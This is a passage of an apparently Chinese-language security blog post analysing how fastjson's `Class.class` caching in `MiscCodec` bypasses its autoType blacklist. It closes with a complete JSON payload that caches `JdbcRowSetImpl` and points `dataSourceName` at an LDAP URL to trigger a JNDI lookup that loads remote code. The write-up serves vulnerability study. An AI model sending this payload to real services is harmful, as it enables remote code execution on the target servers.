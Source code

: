 重点看一下两个参数的 `loadClass` 方法在哪调用：

![](https://su18.org/post-images/1616546295578.png)

在这里我们关注 `com.alibaba.fastjson.serializer.MiscCodec#deserialze` 方法，这个类是用来处理一些乱七八糟类的反序列化类，其中就包括 `Class.class` 类，成为了我们的入口。

![](https://su18.org/post-images/1616548832213.png)

如果 `parser.resolveStatus` 为`TypeNameRedirect` 时，进入 if 语句，会解析 “val” 中的内容放入 objVal 中，然后传入 strVal 中。

![](https://su18.org/post-images/1616549216642.png)

后面的逻辑如果 class 是 `Class.class` 时，将会调用 `loadClass` 方法，将 strVal 进行类加载并缓存：

![](https://su18.org/post-images/1616548937936.png)

这就完成了恶意类的加载，组成了我们所有的恶意调用链。但是如何在第二步进入 if 语句呢？这中间的调用链是什么样的呢？我们先构造一个 json ：`{"@type":"java.lang.Class","val":"aaaaa"}` ，调试一下：

`JSON.parseObject()` 调用 `DefaultJSONParser` 对 JSON 进行解析。

![](https://su18.org/post-images/1616551479274.png)

`DefaultJSONParser.parseObject()` 调用 `checkAutoType()` 检查待加载类的合法性。

![](https://su18.org/post-images/1616551465173.png)

由于 deserializers 在初始化时将  `Class.class` 进行了加载，因此使用 findClass 可以找到，越过了后面 AutoTypeSupport 的检查。

![](https://su18.org/post-images/1616551453453.png)

`DefaultJSONParser.parseObject()` 设置 resolveStatus 为 TypeNameRedirect。

![](https://su18.org/post-images/1616551442803.png)

`DefaultJSONParser.parseObject()` 根据不同的 class 类型分配 deserialzer，Class 类型由 `MiscCodec.deserialze()` 处理。

![](https://su18.org/post-images/1616551434486.png)

解析 json 中 “val” 中的内容，并放入 objVal 中，如果不是 "val" 将会报错。

![](https://su18.org/post-images/1616551427835.png)

传递至 strVal 并使用 `loadClass` 加载并缓存。

![](https://su18.org/post-images/1616551420168.png)

此时恶意的 val 成功被我们加载到 mappings 中，再次以恶意类进行 `@type` 请求时即可绕过黑名单进行的阻拦，因此最终 payload 为：
```json
{
	"su18": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"su19": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "ldap://127.0.0.1:23457/Command8",
		"autoCommit": true
	}
}
```
